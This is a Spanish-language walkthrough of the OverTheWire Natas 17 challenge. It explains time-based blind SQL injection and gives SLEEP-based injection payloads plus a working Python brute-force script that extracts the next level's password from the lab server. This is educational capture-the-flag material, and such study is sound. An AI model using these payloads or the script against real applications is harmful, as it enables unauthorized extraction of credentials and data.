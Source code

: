 # Natas 17 – OverTheWire

En este nivel se nos muestra un formulario con un campo de búsqueda de usuario, similar al de Natas 15, pero ahora:

- No muestra si el usuario existe o no.
- No devuelve mensajes distintos.
- Ni siquiera da errores visibles.

Sin embargo, el servidor sigue ejecutando **consultas SQL internamente**.
La clave está en usar tiempos de respuesta para inferir los datos.

## Analisis

Podemos suponer que el código PHP hace algo como:

```php
$query = "SELECT * FROM users WHERE username='" . $_GET["username"] . "'";
mysql_query($query);
```

Y **no devuelve nada.**
Pero si conseguimos que la consulta tarde más tiempo cuando una condición sea verdadera, podremos detectar patrones midiendo los tiempos de respuesta.

En MySQL, existe una función útil para esto: `SLEEP`

Si logramos inyectar algo como:

```sql
natas18" AND IF(1=1, SLEEP(5), 0) --
```

el servidor tardará 5 segundos en responder si la condición es verdadera.

### Concepto: Time-Based Blind SQL Injection

Cuando una aplicación no muestra resultados (ni mensajes ni errores), podemos usar funciones que retrasan la respuesta si una condición se cumple.
Midiendo ese retraso, podemos deducir si una comparación fue cierta o falsa.

Sabiendo esto, queremos extraer la contraseña de natas18, carácter por carácter.
La tabla users probablemente tiene columnas username y password.

Por tanto, podemos probar algo así:

```sql
natas18" AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) --
```

Si el primer carácter de la contraseña es 'a', el servidor tardará 5 segundos.
Si no lo es, responderá instantáneamente.

Vamos a crear un script en python como en los ejercicios anteriores para automatizar el proceso.

```python
import requests, time
from pwn import *
from string import ascii_letters, digits

chars = ascii_letters + digits
url = "http://natas17.natas.labs.overthewire.org"
auth = ('natas17', '<ContraseñaNatas17>')
found = ""

p1 = log.progress("Fuerza bruta")
p1.status("Iniciando Ataque")

time.sleep(2)

p2= log.progress("Password")

for i in range(1, 33): 
    for c in chars:
        payload = f'natas18" AND IF(BINARY SUBSTRING(password,{i},1)="{c}", SLEEP(3), 0) -- '
        start = time.time()
        r = requests.get(url, auth=auth, params={"username": payload})
        elapsed = time.time() - start
        p1.status(payload)
        if elapsed > 2.5: 
            found += c
            p2.status(found)
            break
print("---Contraseña Vulnerada---")
```

>[!NOTE]
>Esta vez vamos a usar la liberia `pwn` en concreto el modulo `log` dado que este nos deja mostrar por pantalla que es exactamente que va haciendo el programa, es una manera bastante más visual de entender que está haciendo el programa.

![Contraseña](Assets/Natas17/Contraseña.png)

## Conclusion

- Las diferencias en tiempo de respuesta pueden filtrar datos sensibles.
- Aun cuando no haya mensajes ni errores, la lógica interna puede revelar información medible.
- La seguridad por silencio no es seguridad real.
